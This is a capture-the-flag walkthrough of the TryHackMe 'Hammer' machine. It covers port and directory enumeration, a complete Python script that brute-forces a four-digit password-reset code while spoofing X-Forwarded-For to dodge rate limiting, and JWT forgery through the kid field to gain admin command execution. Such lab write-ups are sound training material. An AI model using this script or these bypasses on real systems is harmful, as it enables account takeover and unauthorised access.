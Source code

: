 ```yaml
---
title: "Hammer TryHackMe"
tags:
    - machine
    - THM
    - Auth Bypass
    - JWT
date: "2024-09-16"
thumbnail: "/assets/img/thumbnail/thumb.png"
bookmark: true
---
```

# Description
---
With the Hammer in hand, can you bypass the authentication mechanisms and get RCE on the system?
What is the flag value after logging in to the dashboard?.......
What is the content of the file /home/ubuntu/flag.txt?..........

# Enumeration
let's start with Nmap Scan:
```bash
$ nmap -sC -sV -Pn 10.10.49.135 -T4 -p 0-2000
Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-15 23:02 EEST
Nmap scan report for 10.10.49.135
Host is up (0.079s latency).
Not shown: 1999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 f51db1e6cc75df6abee39012e6b9126d (RSA)
|   256 1b7a2234ed1bff9ec3d13d5cf0b48bc8 (ECDSA)
|_  256 5a72ff3298127238088edc9652cef65c (ED25519)
1337/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Login
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
``` 
Found two open ports:
1. 22 -> ssh
2. 1337 -> http

`http://10.10.49.135:1337/`, we get a login form.
Testing the form with default credentials, we get the message: `Invalid email address!`
<img src="/assets/img/hammer/1.png">
ok, let me look at the src code 
<img src="/assets/img/hammer/2.png">

nice,the developer forgot a note about directory naming -> `hmr_directory_name`
i love using `ffuf` for fuzzing :
```bash
$ ffuf -u http://10.10.49.135:1337/hmr_FUZZ -w /usr/share/wordlists/dirb/small.txt  -mc 200,301 -ac

[Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 81ms]
    * FUZZ: css
[Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 76ms]
    * FUZZ: images
[Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 108ms]
    * FUZZ: js
[Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 83ms]
    * FUZZ: logs
```
found `hmr_logs` has `error.logs` file let's open it 
<img src="/assets/img/hammer/3.png">

we discover an email address: `tester@hammer.thm`

# Bypassing the Rate Limit
---
Now that we discovered a valid email address, we can try to reset the password for the user at `http://10.10.63.156:1337/reset_password.php`
<img src="/assets/img/hammer/4.png">
4-digit recovery code ....!,So i can brute-force it easily 
let's send normal request with code -> 0000
<img src="/assets/img/hammer/5.png">

Oops there is a `Rate-Limit-Pending:9` header on response
If we continue to make requests in quick succession, we will see it decreasing
And when it reaches `zero`, we see that now we are getting `rate-limited`.
<img src="/assets/img/hammer/6.png">

now my mission is bypassing this rate limit so i added `X-Forwarded-For` header with value `127.0.0.1` , this make me bypass the limit 
<img src="/assets/img/hammer/7.png">
but again if the counter reaches zero, we will be once again rate-limited
<img src="/assets/img/hammer/8.png">

but what if i changed the provided ip like this -> `X-Forwarded-For :127.0.0.2`
now able to reset the counter again 
<img src="/assets/img/hammer/9.png">

# Brute Forcing Script
---
scripting time for brute-forcing the 4 digit code & bypassing the rate limit 
chat-gpt helped me to write this script:
```python 
import requests
import random
import threading
# Target URL
url = "http://10.10.49.135:1337/reset_password.php"

# Event flag to stop threads when the correct code is found
stop_flag = threading.Event()

# Number of threads to use
num_threads = 50

# Generate a random 'X-Forwarded-For' header in the form '127.0.$.$'
def random_ip():
    return f"127.0.{random.randint(0, 255)}.{random.randint(0, 255)}"

# Brute-force function executed by each thread
def brute_force_code(session, start, end):
    for code in range(start, end):
        code_str = f"{code:04d}"  # Format code as 4 digits
        try:
            response = session.post(
                url,
                data={"recovery_code": code_str, "s": "180"},  # 's' parameter is fixed
                headers={"X-Forwarded-For": random_ip()},  # Use random IP
                allow_redirects=False  # Disable redirects
            )
            
            if stop_flag.is_set():
                return  # Stop if the flag is set by another thread
            
            # Check if we hit a rate limit (status code 302 in this case)
            if response.status_code == 302:
                stop_flag.set()  # Stop all threads
                print("[-] Timeout reached. Try again.")
                return
            
            # Check for a successful recovery code (modify based on server's response)
            if "Invalid or expired recovery code!" not in response.text:
                stop_flag.set()
                print(f"[+] Found the recovery code: {code_str}")
                print("[+] Printing the response: ")
                print(response.text)
                return

        except Exception as e:
            pass  # Ignore exceptions for now

# Main function to handle multithreading and start the brute-force process
def main():
    session = requests.Session()

    # Sending the password reset request
    print("[+] Sending the password reset request.")
    session.post(url, data={"email": "tester@hammer.thm"})

    # Brute-forcing the recovery code
    print("[+] Starting the code brute-force.")
    code_range = 10000  # Range of 4-digit codes (0000-9999)
    step = code_range // num_threads
    threads = []

    # Create and start threads
    for i in range(num_threads):
        start = i * step
        end = start + step
        thread = threading.Thread(target=brute_force_code, args=(session, start, end))
        threads.append(thread)
        thread.start()

    # Wait for all threads to finish
    for thread in threads:
        thread.join()

if __name__ == "__main__":
    main()

```
run the script 
<img src="/assets/img/hammer/10.png">
I got the code , now I can reset the password to: 123456789
<img src="/assets/img/hammer/11.png">

I have credentials `tester@hammer.thm:123456789` let's login at `http://10.10.49.135:1337/` ,I get redirected to `http://10.10.63.156:1337/dashboard.php` where we get our first flag.
<img src="/assets/img/hammer/12.png">

# Key File
---
in the dashboard there is input `Enter Command` let's see the request on burp with command `ls`
<img src="/assets/img/hammer/13.png">

it gaves me list of files one of them called `188ade1.key` 
<img src="/assets/img/hammer/14.png">

if i tried another command it gaves me `Command not allowed`
So,what this key for? and how can i use it ??? huuh there is a jwt i think i can use this key at `Verify the SIGNATURE`
so let's go back to the burp and change the signature of the jwt 
<img src="/assets/img/hammer/15.png">

`invalid Token`
# JWT
---
let's analysis the jwt on JWT.io , i found that :
`kid` take a file-> can put 188ade1.key file
`role` is `user` -> can change it to admin
first let's pass the file to it and it's content to signature
<img src="/assets/img/hammer/16.png">
here we go 
<img src="/assets/img/hammer/17.png">

now change the role to admin and send the request with `id` command
<img src="/assets/img/hammer/18.png">

Nice, now i can read the content of the file `/home/ubuntu/flag.txt`
<img src="/assets/img/hammer/19.png">

Honestly, this was an awesome machine, and I learned a lot from it. I hope you enjoy this walkthrough!
---